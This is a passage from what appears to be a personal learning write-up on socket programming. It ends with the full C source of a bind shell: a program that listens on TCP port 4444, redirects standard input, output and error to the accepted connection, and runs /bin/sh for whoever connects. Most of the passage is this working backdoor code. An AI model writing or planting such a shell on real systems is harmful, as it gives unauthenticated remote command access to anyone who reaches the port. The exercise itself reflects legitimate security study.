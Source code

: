 ### Exec 
With our connection established, all that remains is to execute the shell:
{% highlight c %}
execl("/bin/sh", NULL, NULL);
{% endhighlight %}

### Clean Up 
Finally, we must clean up after ourselves by closing the two sockets:
{% highlight c %}
close(sock_fd);
close(bind_fd);
{% endhighlight %}

### Conclusion 
I had a ton of fun with this part of the exercise, and learned a ton about 
sockets and their implementation in Linux.  Here is the code for this section
in its entirety:
{% highlight c %}
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

#define PORT 4444

int sock_fd, bind_fd;
struct sockaddr_in s_addr, d_addr;

int main(int argc, char **argv) {
    // Create a TCP socket
    sock_fd = socket(AF_INET, SOCK_STREAM, 0);

    // Initialize sockaddr_in struct
    s_addr.sin_family = AF_INET;
    s_addr.sin_port = htons(PORT);
    s_addr.sin_addr.s_addr = htonl(INADDR_ANY);

    // Bind to any local address on the specified port and listen
    bind(sock_fd, (struct sockaddr *) &s_addr, sizeof(s_addr));

    // Listen for connections with a queue size of 1
    listen(sock_fd, 1);

    // Accept a connection
    socklen_t d_addr_len = sizeof(d_addr);
    bind_fd = accept(sock_fd, (struct sockaddr *) &d_addr, &d_addr_len);

    // Duplicate stdin/out/err file descriptors
    for (int i = 2; i >= 0; i--) dup2(bind_fd, i);

    // Execute shell
    execl("/bin/sh", NULL, NULL);
    close(sock_fd);
    close(bind_fd);

    return 0;
}
{% endhighlight %}
